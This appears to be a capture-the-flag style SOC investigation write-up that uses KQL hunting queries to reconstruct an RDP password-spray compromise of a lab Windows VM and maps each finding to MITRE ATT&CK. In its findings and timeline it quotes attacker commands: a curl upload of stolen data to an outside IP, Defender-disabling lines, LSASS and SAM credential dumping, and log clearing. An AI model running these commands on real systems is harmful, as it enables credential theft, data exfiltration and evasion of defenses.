










# SOC Investigation: VM Compromise via RDP Password Spray - Full Attack Chain Reconstruction

> **"Suspicious activity detected on a cloud-hosted Windows VM. Multiple failed RDP attempts followed by a successful login. The attacker established persistence, dumped credentials, and exfiltrated data before clearing their tracks."**

[](https://azure.microsoft.com)
[](https://docs.microsoft.com/en-us/azure/data-explorer/kusto/query/)
[](https://attack.mitre.org/)
[](https://github.com)

---


## Incident Brief

| | |
|---|---|
| **Environment** | Cloud-hosted Windows VM — Microsoft Cyber Range |
| **Compromised Host** | `slflarewinsysmo` |
| **Evidence Source** | MDE telemetry forwarded to Microsoft Sentinel |
| **Investigation Window** | 2025-09-16 to 2025-09-27 |
| **Attack Duration** | ~35 minutes (initial session) + return visit 11 days later |
| **Outcome** | Full attack chain reconstructed across 10 flags — initial access through data exfiltration confirmed |

---

## Scenario

Suspicious RDP login activity was detected on a cloud-hosted Windows server. The SOC received an alert indicating multiple failed authentication attempts followed by a successful login from an external IP address. As the assigned analyst, the objective was to determine how the attacker got in, what they did once inside, and whether they still had access.

**Investigation Questions:**
- How did the attacker authenticate?
- Which account was compromised?
- What tools were executed and where were they staged?
- How was persistence established?
- What defenses were modified?
- What data was collected and how was it exfiltrated?

**Evidence Available:** MDE log tables queried via KQL in Microsoft Sentinel Advanced Hunting — `DeviceLogonEvents`, `DeviceProcessEvents`, `DeviceNetworkEvents`, `DeviceFileEvents`, `DeviceRegistryEvents`

---

## Platform and Tools

- Microsoft Sentinel — Advanced Hunting
- Microsoft Defender for Endpoint (MDE)
- Kusto Query Language (KQL)
- MITRE ATT&CK Framework for technique mapping

---

## High-Level Investigation Plan

Before writing any queries, I mapped out what I expected to find based on the scenario title — *"Hide Your RDP: Password Spray Leads to Full Compromise"*:

- **`DeviceLogonEvents`** — Find the external RDP source and compromised account
- **`DeviceProcessEvents`** — Identify malicious binaries, execution methods, discovery commands, persistence, credential dumping, and log clearing
- **`DeviceNetworkEvents`** — Find C2 communications and exfiltration traffic
- **`DeviceFileEvents`** — Locate dropped tools and staged archive files
- **`DeviceRegistryEvents`** — Identify Defender configuration tampering and task persistence

---

## Investigation Steps

### Step 1 — Identify the Initial Access Source

**What I was looking for:** External IP addresses that successfully authenticated via RDP after a pattern of failed attempts — the classic indicator of a password spray attack.

My approach was to first get a broad view of all failed logon events grouped by RemoteIP — rather than filtering for a specific IP immediately. This baseline comparison makes anomalies visible instantly.

```kql
DeviceLogonEvents
| where TimeGenerated > todatetime('2025-09-16T00:00:00.0000000Z')
| where DeviceName contains "flare"
| where RemoteIP !in ("", "-")
| where ActionType == "LogonFailed"
| summarize 
    FailedAttempts = count(),
    UniqueAccounts = dcount(AccountName),
    AccountsTried = make_set(AccountName)
    by RemoteIP, DeviceName
| sort by FailedAttempts desc
```



**Finding:** Three IPs appeared in the failed logon data. `79.76.123.251` was trying the machine name as a username — automated scanner behavior. `157.180.54.6` was exclusively trying `administrator` — a generic credential list. `159.26.106.84` was different: it specifically targeted the `slflare` account and succeeded after only two failed attempts.

Two failed attempts before success is a significant anomaly. Credential stuffing tools — which use previously leaked username/password pairs — behave exactly this way. The attacker likely had prior knowledge of the account credentials from a previous breach or OSINT.

I then confirmed this with a joined query showing failed-then-succeeded IPs:

```kql
let FailedIPs = DeviceLogonEvents
| where TimeGenerated > todatetime('2025-09-16T00:00:00.0000000Z')
| where DeviceName contains "flare"
| where ActionType == "LogonFailed"
| where RemoteIP !in ("", "-")
| distinct RemoteIP;
DeviceLogonEvents
| where TimeGenerated > todatetime('2025-09-16T00:00:00.0000000Z')
| where DeviceName contains "flare"
| where ActionType == "LogonSuccess"
| where RemoteIP in (FailedIPs)
| project TimeGenerated, AccountName, RemoteIP, LogonType
| sort by TimeGenerated asc
```



**Finding:** Account `slflare` successfully authenticated via RDP (LogonType 10) from `159.26.106.84` at 6:40 PM. The account name mirrors the machine name `slflarewinsysmo` — suggesting a dedicated admin or service account with elevated privileges.

> 🚩 **Flag 1 — Attacker IP:** `159.26.106.84`
> 🚩 **Flag 2 — Compromised Account:** `slflare`
>
> **MITRE:** T1110.001 — Password Guessing | T1078 — Valid Accounts

---

### Step 2 — Identify the Malicious Binary and Execution Method

**What I was looking for:** An executable dropped in a user-writable location shortly after the RDP session started, executed in a way no legitimate user would.

```kql
DeviceProcessEvents
| where TimeGenerated > todatetime('2025-09-16T00:00:00.0000000Z')
| where DeviceName contains "flare"
| where AccountName == "slflare"
| where FileName endswith ".exe"
| where FolderPath contains "Public"
    or FolderPath contains "Temp"
    or FolderPath contains "Downloads"
| project TimeGenerated, AccountName, FileName, FolderPath,
    InitiatingProcessFileName,
    InitiatingProcessCommandLine,
    ProcessCommandLine
| sort by TimeGenerated asc
```



**Finding:** `msupdate.exe` appeared in `C:\Users\Public\` at 7:38 PM — about an hour after initial login. Three simultaneous red flags:

**Location:** `C:\Users\Public\` is world-writable — no elevated privileges required. Legitimate software never lives here. The attacker chose it precisely because the `slflare` account could write there without admin rights.

**Parent process:** `powershell.exe` spawned the executable. There is no legitimate scenario where PowerShell reaches into the Public folder to execute a binary. This is scripted, automated execution.

**Name:** `msupdate.exe` is a deliberate masquerade of Microsoft update tooling. The legitimate Windows update binaries are `wuauclt.exe` and `UsoClient.exe`. No such file as `msupdate.exe` exists in a clean Windows installation.

I then retrieved the full command line to understand exactly how it was invoked:

```kql
DeviceProcessEvents
| where TimeGenerated > todatetime('2025-09-16T00:00:00.0000000Z')
| where DeviceName contains "flare"
| where AccountName == "slflare"
| where FileName == "msupdate.exe"
| project TimeGenerated, FileName,
    ProcessCommandLine,
    InitiatingProcessFileName,
    InitiatingProcessCommandLine,
    SHA256
```



**Finding:** `"msupdate.exe" -ExecutionPolicy Bypass -File C:\Users\Public\update_check.ps1`

Breaking this down:
- `"msupdate.exe"` — quoted string in PowerShell context confirms scripted execution, not manual
- `-ExecutionPolicy Bypass` — completely ignores Windows PowerShell script execution policy. `Bypass` is not a policy value — it is a runtime flag that silences all restrictions without warning. Legitimate admins use signed scripts with `AllSigned` or `RemoteSigned`
- `-File C:\Users\Public\update_check.ps1` — the real payload is a separate script. `msupdate.exe` is only a launcher. The malicious logic lives in `update_check.ps1`

> 🚩 **Flag 3 — Executed Binary:** `msupdate.exe`
> 🚩 **Flag 4 — Command Line:** `"msupdate.exe" -ExecutionPolicy Bypass -File C:\Users\Public\update_check.ps1`
>
> **MITRE:** T1059.001 — PowerShell | T1059.003 — Windows Command Shell | T1036 — Masquerading

---

### Step 3 — Identify Persistence Mechanism

**What I was looking for:** Evidence that the attacker established a mechanism to survive reboots — ensuring their implant would continue running even if the RDP session was terminated.

```kql
DeviceProcessEvents
| where TimeGenerated > todatetime('2025-09-16T00:00:00.0000000Z')
| where DeviceName contains "flare"
| where ProcessCommandLine contains "schtasks"
| where ProcessCommandLine contains "/create"
| project TimeGenerated, AccountName,
    InitiatingProcessFileName,
    ProcessCommandLine
| sort by TimeGenerated asc
```



**Finding:** Multiple scheduled tasks were created via `schtasks /create`. The task names were carefully chosen to blend with legitimate Windows tasks: `EdgeUpdateTask`, `MicrosoftEdgeUpdateCore`, `WindowsDefenderUpdate`, `MicrosoftUpdateSync`.

Registry evidence confirmed the persistence artifact:

```kql
DeviceRegistryEvents
| where Timestamp between (
    datetime(2025-09-16T18:40:57Z) .. datetime(2025-09-18))
| where DeviceName contains "slflarewinsysmo"
| where RegistryKey has "Schedule"
| where ActionType contains "RegistryKeyCreated"
| project Timestamp, InitiatingProcessAccountName,
    ActionType, RegistryKey
| sort by Timestamp asc
```

`TaskCache\Tree\MicrosoftUpdateSync` was registered at 7:39 PM — one minute after the C2 beacon fired. The task was created by `powershell.exe` rather than `cmd.exe`, which matched the attacker's tooling. Configured to run hourly under `SYSTEM` — the highest privilege level on Windows, ensuring the implant runs regardless of what happens to the `slflare` account.

The name `MicrosoftUpdateSync` was deliberately chosen. Without knowledge of what legitimate Windows tasks look like, an analyst reviewing the task list would likely skip it.

> 🚩 **Flag 5 — Scheduled Task Name:** `MicrosoftUpdateSync`
>
> **MITRE:** T1053.005 — Scheduled Task/Job: Scheduled Task

---

### Step 4 — Identify Defense Evasion via Defender Modification

**What I was looking for:** Commands that weakened or disabled Windows Defender, specifically folder exclusions that would allow malware to operate without being scanned.

The `payload.exe` child process query revealed the defender modification:

```kql
DeviceProcessEvents
| where TimeGenerated > todatetime('2025-09-16T00:00:00.0000000Z')
| where DeviceName contains "flare"
| where InitiatingProcessFileName == "payload.exe"
| project TimeGenerated, AccountName, FileName,
    ProcessCommandLine
| sort by TimeGenerated asc
```



**Finding:** Two PowerShell commands executed in sequence:

```
Set-MpPreference -DisableRealtimeMonitoring $true
Add-MpPreference -ExclusionPath 'C:\Windows\Temp'
```

Both steps together are more dangerous than either alone. Disabling real-time monitoring is aggressive — it might be reverted by a policy or noticed. But the exclusion is quieter and persists independently. Even if real-time monitoring is re-enabled, `C:\Windows\Temp` stays unscanned — exactly where the attacker staged `debug.dmp` and `sam.hive` (the credential dumps from a later session).

This modification should always trigger an immediate high-severity alert in any production SOC environment.

> 🚩 **Flag 6 — Defender Exclusion Path:** `C:\Windows\Temp`
>
> **MITRE:** T1562.001 — Impair Defenses: Disable or Modify Windows Defender

---

### Step 5 — Map Discovery Activity

**What I was looking for:** Built-in Windows enumeration tools used to profile the compromised host and internal network — standard post-exploitation reconnaissance before lateral movement.

```kql
DeviceProcessEvents
| where TimeGenerated > todatetime('2025-09-16T00:00:00.0000000Z')
| where DeviceName contains "flare"
| where ProcessCommandLine has_any (
    "whoami", "net user", "net localgroup",
    "ipconfig /all", "netstat", "systeminfo",
    "net view", "arp -a", "tasklist", "nltest"
)
| project Timestamp, AccountName, FileName,
    ProcessCommandLine, InitiatingProcessFileName
| order by Timestamp asc
```



**Finding:** At 7:40 PM — two minutes after the C2 beacon established — `cmd.exe /c systeminfo` executed under `slflare`. The timing is deliberate: the C2 server received the callback and immediately sent the reconnaissance instruction.

`systeminfo` in one command returns OS version, installed hotfixes, domain membership, network adapter config, and hardware details. From an attacker's perspective: what unpatched vulnerabilities are available? Is this domain-joined? What is the network layout?

`nltest /dclist:` also appeared — the attacker was actively hunting for domain controllers, indicating lateral movement was planned.

These are all legitimate Windows binaries. Antivirus will not flag them. Detection requires behavioral context — who ran them, from what parent process, in what sequence.

> 🚩 **Flag 7 — Discovery Command:** `"cmd.exe" /c systeminfo`
>
> **MITRE:** T1082 — System Information Discovery | T1016 — System Network Configuration Discovery

---

### Step 6 — Find the Staged Data Archive

**What I was looking for:** A compressed archive created by the compromised account in a non-standard directory — data packaged and ready for exfiltration.

```kql
DeviceFileEvents
| where TimeGenerated > todatetime('2025-09-16T00:00:00.0000000Z')
| where DeviceName contains "flare"
| where ActionType == "FileCreated"
| where FileName endswith ".zip"
    or FileName endswith ".rar"
    or FileName endswith ".7z"
| project TimeGenerated, FileName, FolderPath,
    InitiatingProcessAccountName,
    InitiatingProcessFileName
| sort by TimeGenerated asc
```



**Finding:** Several archives appeared. The legitimate ones — `msedge.7z`, `VMAgentLogs.zip` — were created by the `system` account via `setup.exe` or `collectguestlogs.exe`. Standard Windows operations.

`backup_sync.zip` stood out immediately: created by `slflare` via `powershell.exe` in `C:\Users\SLFlare\AppData\Local\Temp\` at 7:41 PM — exactly two minutes after the C2 beacon. The name `backup_sync.zip` follows the attacker's masquerading pattern — sounds like a legitimate backup sync file. Three signals pointing the same direction: compromised account, PowerShell as initiator, non-standard location.

> 🚩 **Flag 8 — Archive File:** `backup_sync.zip`
>
> **MITRE:** T1560.001 — Archive Collected Data: Local Archiving

---

### Step 7 — Locate the Command & Control Server

**What I was looking for:** The first outbound network connection initiated by the malicious process — the C2 beacon callback.

```kql
DeviceNetworkEvents
| where TimeGenerated > todatetime('2025-09-16T00:00:00.0000000Z')
| where DeviceName contains "flare"
| where RemoteIPType == "Public"
| where InitiatingProcessFileName has_any (
    "msupdate.exe", "appservice.exe", "payload.exe",
    "powershell.exe", "cmd.exe"
)
| project Timestamp, DeviceName,
    RemoteIP, RemotePort, RemoteUrl,
    InitiatingProcessFileName,
    InitiatingProcessCommandLine
| order by Timestamp asc
```



**Finding:** Multiple external IPs appeared. Each required evaluation:

`edr-eus3.us.endpoint.security.microsoft.com` — Microsoft Defender telemetry. Legitimate.
`raw.githubusercontent.com` — Tool download from GitHub. Attacker-controlled staging, but not C2.
`sacyberrange00.blob.core.windows.net` — Exfiltration destination. Different role.
`185.92.220.87` — Raw IP, no domain, port 80, initiated by `msupdate.exe` exactly 23 seconds after it executed. This is the C2 beacon.

23 seconds is the window between malware execution and first callback — the implant checking in with its home server. Port 80 (HTTP) was chosen to blend with normal web traffic and avoid firewall blocks. A raw IP connection with no associated domain name, initiated by our identified malware, immediately after execution — high confidence C2.

> 🚩 **Flag 9 — C2 IP:** `185.92.220.87`
>
> **MITRE:** T1071.001 — Application Layer Protocol: Web Protocols | T1105 — Ingress Tool Transfer

---

### Step 8 — Confirm Data Exfiltration

**What I was looking for:** Network connections referencing the staged archive file — the moment the data actually left the network.

```kql
DeviceNetworkEvents
| where TimeGenerated > todatetime('2025-09-16T19:41:00.0000000Z')
| where DeviceName contains "flare"
| where RemoteIPType == "Public"
| where InitiatingProcessCommandLine contains "backup_sync"
| project Timestamp, RemoteIP, RemotePort, RemoteUrl,
    InitiatingProcessFileName,
    InitiatingProcessCommandLine
| order by Timestamp asc
```



**Finding:**

```
curl -X POST -F "file=@C:\Users\SLFlare\AppData\Local\Temp\backup_sync.zip" 
     http://185.92.220.87:8081/upload
```

This is as explicit as it gets. `curl` — a legitimate Windows utility — POST-uploaded the archive directly to the attacker's server. Same IP as the C2 (`185.92.220.87`) but a different port (`8081`), with a dedicated `/upload` endpoint. Port 8081 is non-standard, likely a custom file receiver running alongside the C2 infrastructure.

The transfer was over HTTP — unencrypted. A network sensor with deep packet inspection at the egress point could have captured the file contents in transit. This is a detection opportunity that was missed.

> 🚩 **Flag 10 — Exfiltration Destination:** `185.92.220.87:8081`
>
> **MITRE:** T1048.003 — Exfiltration Over Unencrypted Protocol

---

## Complete Attack Timeline

```
Sep 16 · 6:35 PM   Automated scanners hit exposed RDP port
                    79.76.123.251 tries machine name as username — no result
                    157.180.54.6 tries "administrator" — no result

Sep 16 · 6:36 PM   159.26.106.84 begins targeted spray against "slflare"

Sep 16 · 6:40 PM   ✅ Successful RDP login — slflare / 159.26.106.84
                    LogonType 10 (RemoteInteractive) confirmed

Sep 16 · 7:38 PM   msupdate.exe executed from C:\Users\Public\
                    PowerShell parent — ExecutionPolicy Bypass
                    Launches update_check.ps1

Sep 16 · 7:39 PM   C2 beacon fires to 185.92.220.87:80 — 23 seconds post-execution
                    MicrosoftUpdateSync scheduled task registered (SYSTEM, hourly)

Sep 16 · 7:40 PM   cmd.exe /c systeminfo — host profiling
                    whoami /all — privilege enumeration
                    nltest /dclist: — hunting for domain controllers

Sep 16 · 7:41 PM   backup_sync.zip staged in AppData\Local\Temp\

Sep 16 · 7:43 PM   curl POST → backup_sync.zip → 185.92.220.87:8081/upload
                    Data leaves the network

─────────────────────────────────────────── 11 days later ───

Sep 27 · 2:59 AM   payload.exe deployed — second attack session begins
                    OneDrive Standalone Update Task created

Sep 27 · 2:59 AM   Set-MpPreference -DisableRealtimeMonitoring $true
                    Add-MpPreference -ExclusionPath 'C:\Windows\Temp'

Sep 27 · 3:00 AM   rundll32 comsvcs.dll MiniDump → debug.dmp (LSASS dump)
                    reg.exe save HKLM\SAM → sam.hive (SAM database)
                    nltest /dclist: + net.exe user — further enumeration

Sep 27 · 3:01 AM   wevtutil cl Microsoft-Windows-PowerShell/Operational
                    Evidence destruction — PowerShell logs cleared
                    MDE telemetry unaffected — already captured
```

---

## Summary of All Findings

| Flag | Category | Finding | MITRE |
|------|----------|---------|-------|
| 1 | Initial Access — Source IP | `159.26.106.84` | T1110.001 |
| 2 | Initial Access — Account | `slflare` | T1078 |
| 3 | Execution — Malicious Binary | `msupdate.exe` | T1204.002 |
| 4 | Execution — Command Line | `"msupdate.exe" -ExecutionPolicy Bypass -File C:\Users\Public\update_check.ps1` | T1059.001 |
| 5 | Persistence — Scheduled Task | `MicrosoftUpdateSync` | T1053.005 |
| 6 | Defense Evasion — Defender Exclusion | `C:\Windows\Temp` | T1562.001 |
| 7 | Discovery — Recon Command | `"cmd.exe" /c systeminfo` | T1082 |
| 8 | Collection — Archive File | `backup_sync.zip` | T1560.001 |
| 9 | C2 — Server IP | `185.92.220.87` | T1071.001 |
| 10 | Exfiltration — Destination | `185.92.220.87:8081` | T1048.003 |

---

## Indicators of Compromise (IOCs)

**Network**

| IOC | Type | Context |
|-----|------|---------|
| `159.26.106.84` | IP | Attacker source — RDP brute force |
| `185.92.220.87` | IP | C2 server and exfiltration host |
| `185.92.220.87:80` | IP:Port | C2 beacon endpoint |
| `185.92.220.87:8081` | IP:Port | Exfiltration upload endpoint |
| `http://185.92.220.87:8081/upload` | URL | Data exfiltration URL |

**Host**

| IOC | Type | Context |
|-----|------|---------|
| `C:\Users\Public\msupdate.exe` | File | First stage launcher — Masquerading |
| `C:\Users\Public\update_check.ps1` | File | Malicious PowerShell script |
| `C:\Users\Public\appservice.exe` | File | Second stage payload |
| `C:\Users\SLFlare\AppData\Local\Temp\backup_sync.zip` | File | Staged exfiltration archive |
| `C:\Users\SLFlare\AppData\Local\Temp\debug.dmp` | File | LSASS memory dump |
| `C:\Users\SLFlare\AppData\Local\Temp\sam.hive` | File | SAM database copy |
| `C:\programdata\pwncrypt.ps1` | File | Downloaded ransomware script |
